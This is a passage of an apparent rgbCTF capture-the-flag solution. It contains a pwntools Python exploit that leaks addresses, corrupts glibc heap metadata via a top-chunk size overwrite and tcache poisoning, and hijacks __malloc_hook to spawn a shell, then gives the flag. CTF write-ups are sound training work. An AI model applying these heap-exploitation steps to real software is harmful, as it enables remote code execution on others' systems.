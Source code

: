```python
  return (0xffffffffffffffff ^ abs(num)) + 1
def conn():
    if args.LOCAL:
        return process(["./ld-2.27.so",e.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("challenge.rgbsec.xyz",6969)
p = conn()
rickroll = 0xf08
heapoffset = 0x280
topchunk = 0x298
newsize = 0xffffffffffffffd9
p.sendlineafter('> ', str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(b"t")
leak = singSong()
e.address = leak - rickroll
log.info(f"Binary base: {hex(e.address)}")
chooseSong(0x10,b'2nd')
heapleak = singSong()
log.info(f"Heap leak: {hex(heapleak)}")
heapbase = heapleak - heapoffset
log.info(f"Heap base: {hex(heapbase)}")
topchunk += heapbase
perthread = heapbase + 0x10
log.info(f"tcache_perthread_struct: {hex(perthread)}")
reqsize = perthread - topchunk - 16 - 8
reqsize = twoscomplement(reqsize)
log.info(f"Size to request: {hex(reqsize)}")
log.info(f"Size as decimal: {reqsize}")
chooseSong(reqsize,dodata=False)
# Top chunk at tcache_perthread_struct
# Ask for 0x230 size chunk, we get to mess up the tcache
fakestruct = b'\x02\x01\x02'.ljust(64,b'\x00')
fakestruct += p64(e.got['puts']) + p64(e.address + 0x000000000202000 + 0x100) + p64(e.address + 0x000000000202000 + 0x100)
chooseSong(0x230,fakestruct)
chooseSong(0,dodata=False)
chooseSong(0,dodata=False)
libcleak = singSong()
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
chooseSong(0x20,p64(libc.symbols['__malloc_hook'])) # Put inside of 0x40 tcache bin
chooseSong(0x30)
chooseSong(0x30,p64(libc.symbols['system']))
log.info("/bin/sh pointer as decimal: {}".format(next(libc.search(b"/bin/sh\x00"))))
binsh = next(libc.search(b"/bin/sh\x00"))
p.sendlineafter("> ","1")
p.sendlineafter("> ",str(binsh))
p.interactive()
```

#### rgbCTF{l3ts_g31_th1s_bre@d}
